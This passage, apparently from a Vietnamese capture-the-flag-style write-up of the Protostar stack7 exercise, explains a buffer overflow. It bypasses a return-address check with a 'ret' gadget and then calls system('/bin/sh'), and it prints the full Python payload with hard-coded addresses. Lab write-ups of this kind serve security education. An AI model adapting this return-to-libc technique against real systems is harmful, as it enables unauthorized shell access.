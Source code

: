 ```c
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Tương tự như stack6, tuy nhiên ở bài này ràng buộc về return address lại chặt chẽ hơn khi mà các địa chỉ có dạng `0xb.......` đều làm cho chương trình thoát và báo lỗi. Mình sẽ làm cho chương trình phải thực hiện lệnh `ret` 2 lần, với lần 1 là để qua được ràng buộc của hàm trên và lần 2 sẽ thực hiện lệnh `system("/bin/sh")` để gọi shell. Vậy chỉ cần chèn thêm địa chỉ của lệnh `ret` vào đoạn mã khai thác nữa là xong.

![alt text](image-19.png)

Địa chỉ của lệnh `ret` là `0x08048544`
```py
buf = 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrsssstttt'
haha = '\x44\x85\x04\x08'
system = '\xb0\xff\xec\xb7'
ret = '\xfa\x84\x04\x08'
sh = '\xbf\x63\xfb\xb7'
print buf + haha + system + ret+ sh
```
![alt text](image-20.png)